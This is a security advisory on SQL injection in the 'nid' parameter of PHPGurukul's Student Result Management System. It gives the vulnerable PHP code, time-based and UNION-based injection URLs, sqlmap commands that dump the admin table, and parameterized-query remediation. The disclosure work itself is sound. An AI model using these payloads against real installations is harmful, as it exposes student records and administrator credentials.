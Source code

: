 **\[sql-injection] in \[Student Result Management System] <= \[v2.0]**

---

### 👨‍💻 **BUG Author:**

4m3rr0r
---

### 📦 **Product Information:**

* **Vendor Homepage:** [https://phpgurukul.com](https://phpgurukul.com)
* **Software Link:** [https://phpgurukul.com/student-result-management-system/](https://phpgurukul.com/student-result-management-system/)
* **Affected Version:** <= v2.0
* **BUG Author:** 4m3rr0r

---

### 🛠 **Vulnerability Details**

* **Type:** Time-Based & UNION-Based SQL Injection
* **Affected URL:** `http://localhost/srms/notice-details.php?nid=1`
* **Vulnerable Parameter:** `nid` (GET)
* **Vulnerable File:**

  * **File Name:** `notice-details.php`
  * **Path:** `/srms/notice-details.php`

---

### 🧨 **Vulnerability Type**

* **SQL Injection Vulnerability**
* **CWE ID:** CWE-89: Improper Neutralization of Special Elements used in an SQL Command
* **Severity Level:** CRITICAL
* **CVSS Score:** 9.1 (Base Score)

---

### 🧬 **Root Cause**

The application constructs SQL queries by directly inserting unvalidated user input into SQL statements without using prepared statements or escaping mechanisms. This allows attackers to inject arbitrary SQL commands.

```php
$noticeid = $_GET['nid'];
$sql = "SELECT * from tblnotice where id='$noticeid'";
$query = $dbh->prepare($sql);
$query->execute();
```

---

### ⚠️ **Impact**

* Unauthorized access to all database contents
* Exposure of sensitive student data and admin credentials
* Possible privilege escalation (admin takeover)
* Full database extraction via automated tools (e.g., sqlmap)

---

### 📋 **Description**

1. **Vulnerability Details:**

   * SQL query is dynamically constructed using unsanitized input (`$_GET['nid']`)
   * No validation, escaping, or parameter binding
   * Affects both UNION and time-based SQLi techniques

2. **Attack Vectors:**

   * Blind SQL injection with time delays (`SLEEP()`)
   * UNION-based injection to extract DB structure and contents

3. **Attack Payload Examples:**

   * Time-Based Injection:

     ```
     http://localhost/srms/notice-details.php?nid=1' AND SLEEP(5)-- -
     ```
   * UNION-Based Injection:

     ```
     http://localhost/srms/notice-details.php?nid=1' UNION ALL SELECT NULL,CONCAT(0x7161,USER(),0x7171),NULL,NULL-- -
     ```

---

### 🔬 **Proof of Concept**

#### ✅ Confirmed Using `sqlmap`

```bash
sqlmap -u "http://localhost/srms/notice-details.php?nid=1" --dbs
```

![Databases ](./Images/2025-07-10_03-26.png) 

Output:

* Injection Type: Time-based and UNION-based
* Database Extracted: `srms`
* Admin table dumped via:


```bash
sqlmap -u "http://localhost/srms/notice-details.php?nid=1" -D srms -T admin --dump
```

![Databases ](./Images/2025-07-10_03-29.png) 

---

### 🛡 **Suggested Remediation**

* Use **parameterized queries** (PDO with bound parameters)
* Validate and sanitize all user input
* Avoid dynamic SQL wherever possible
* Example secure code:

```php
$noticeid = $_GET['nid'];
$sql = "SELECT * FROM tblnotice WHERE id = :nid";
$query = $dbh->prepare($sql);
$query->bindParam(':nid', $noticeid, PDO::PARAM_INT);
$query->execute();
```

---

### 🔐 **Security Recommendations**

* Implement the **Principle of Least Privilege**
* Store passwords hashed and salted
* Conduct regular security audits
* Add a **Web Application Firewall (WAF)**
* Consider using modern PHP frameworks (Laravel, Symfony)

---

### 📚 **References**

* [OWASP SQL Injection Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html)
* [CWE-89: SQL Injection](https://cwe.mitre.org/data/definitions/89.html)

---

### 🕐 **Mitigation Timeline**

| Phase      | Action                         |
| ---------- | ------------------------------ |
| Immediate  | Use prepared statements        |
| Short-term | Add input validation           |
| Long-term  | Adopt ORM (e.g., Eloquent ORM) |

---

### ⚠️ Final Note

This vulnerability poses **serious risk** to the confidentiality and integrity of student records. An unauthenticated attacker can **compromise the full system** using automated tools. Immediate remediation is required.
